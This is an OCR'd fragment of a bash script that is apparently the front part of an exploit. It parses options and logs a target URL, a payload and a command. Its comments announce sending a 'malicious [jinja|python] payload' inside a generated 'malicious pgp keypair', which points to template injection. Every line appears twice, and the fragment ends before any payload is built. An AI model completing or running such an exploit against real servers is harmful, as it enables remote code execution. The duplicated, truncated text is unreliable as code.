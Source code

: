```
            COMMAND=true
            COMMAND=true
            ;;
            ;;
        d)
        d)
            DEBUG=true
            DEBUG=true
            ;;
            ;;
        ?)
        ?)
            usage
            usage
            exit 1
            exit 1
            ;;
            ;;
    esac
    esac
done
done


log "num args: $#" 
log "num args: $#" 
log "target url: ${TARGET}"
log "target url: ${TARGET}"
log "payload: ${PAYLOAD}"
log "payload: ${PAYLOAD}"
[[ -v COMMAND ]] && log "command: ${COMMAND}"
[[ -v COMMAND ]] && log "command: ${COMMAND}"
log "debug: ${DEBUG}"
log "debug: ${DEBUG}"






# send pgp stuff with malicious [jinja|python] payload
# send pgp stuff with malicious [jinja|python] payload






# generate malicious pgp keypair
# generate malicious pgp keypair




KEYGEN="${PWD}/pgp-pysuite/keygen.py"
KEYGEN="${PWD}/pgp-pysuite/keygen.py"
EMAIL="someguy@gmail.com"
EMAIL="someguy@gmail.com"




# if -c is unset, generate jinja payload
```
